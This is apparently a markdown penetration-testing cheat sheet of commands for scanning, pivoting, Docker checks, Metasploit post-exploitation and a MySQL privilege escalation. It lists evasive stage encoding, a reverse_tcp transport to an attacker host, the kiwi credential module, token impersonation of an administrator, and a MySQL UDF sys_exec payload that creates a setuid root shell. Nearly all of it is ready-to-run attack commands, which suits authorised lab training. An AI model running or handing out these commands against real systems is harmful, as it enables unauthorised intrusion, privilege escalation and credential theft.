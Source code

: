 
# Common 

- [CyberChef](https://gchq.github.io/CyberChef) - The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis
- [OSINT Framework](https://osintframework.com/)

## Enumeration

### Nmap
```
$pwd/tools/general/onetwopunch.sh -t targets.txt -i tap0 -n '-n -vvv -T4  -sV -sC -A --osscan-guess --version-all -oA "$pwd/_output/$(target_ip)/full_tcp_unicorn_nmap" --script=*vuln*'
```
```
nmap -n -vvv -T4 -sV -sC -A --osscan-guess --version-all -p- -oA "$pwd/_output/$(target_ip)/full_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_quick_tcp_nmap" $target_ip
```
```
nmap -n -vvv -T4 -sV -sC -p- -oA "$pwd/_output/$(target_ip)/full_formated_tcp_nmap" --stylesheet https://raw.githubusercontent.com/snovvcrash/snovvcrash.github.io/master/reports/nmap/nmap-bootstrap.xsl $target
```

### NBTScan
```
nbtscan $target_ip/24 | tee $pwd/_output/$(target_ip)/nbtscan.txt
```

### nping
```
nping –tcp -p 80 -c 4 –flags SYN $target_ip
```
```
nping –tcp-connect -c 1 -p 3389 $target_ip
```

## Pivoting 

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

## Docker 

File path
```
docker_path=/proc/$(docker inspect --format <ContainerID>)/root
```

Transfer:
```
docker save uzyexe/nmap -o nmap.tar
# ...
docker load -input nmap.tar
docker run --network=br0 -it --rm uzyexe/nmap 
```

Check if in Docker guest:
```
cat /proc/self/cgroup | grep docker
```

## Metasploit
```
set AutoRunScript multi_console_command -r $pwd/payloads_linux/automigrate.rc
```
```
set AutoRunScript post/windows/manage/migrate
```
```
set AutoRunScript windows/gather/enum_logged_on_users
```
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
```
transport add -t reverse_tcp -l 10.11.0.4 -p 5555
transport list
```
```
load powershell
load kiwi
```
```
route add 192.168.1.0/24 11
route print
use multi/manage/autoroute
use auxiliary/server/socks4a
portfwd add -l 3389 -p 3389 -r 192.168.1.110
```
```
use incognito
list_tokens -u
impersonate_token example\\Administrator
```

## MySQL

46249
```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

## Ping check 
```
tcpdump -i tun0 icmp 
```
